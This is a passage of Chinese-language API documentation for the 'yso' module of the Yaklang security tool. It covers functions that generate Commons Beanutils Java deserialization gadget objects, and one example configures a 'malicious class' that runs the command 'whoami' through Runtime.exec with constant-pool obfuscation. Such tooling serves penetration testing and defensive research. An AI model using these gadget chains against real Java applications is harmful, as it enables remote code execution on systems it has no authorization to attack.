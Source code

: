 ## 21. `yso.GetCommonsBeanutils192NOCCJavaObject`

## 功能描述

基于Commons Beanutils 1.9.2 序列化模板生成并返回一个Java对象，去除了对 commons-collections:3.1 的依赖。用户可以通过提供额外的配置函数定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetCommonsBeanutils192NOCCJavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误

## 示例代码

### 基础用法

生成一个Java对象，并指定恶意类的名称为'KEsBXTRS'，使用Runtime Exec方法执行命令

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsBeanutils192NOCCJavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```

## 22. `yso.GetCommonsBeanutils1JavaObject`

## 功能描述

基于Commons Beanutils 1 序列化模板生成并返回一个Java对象。通过可变参数options，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。这些函数使用户能够定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetCommonsBeanutils1JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```
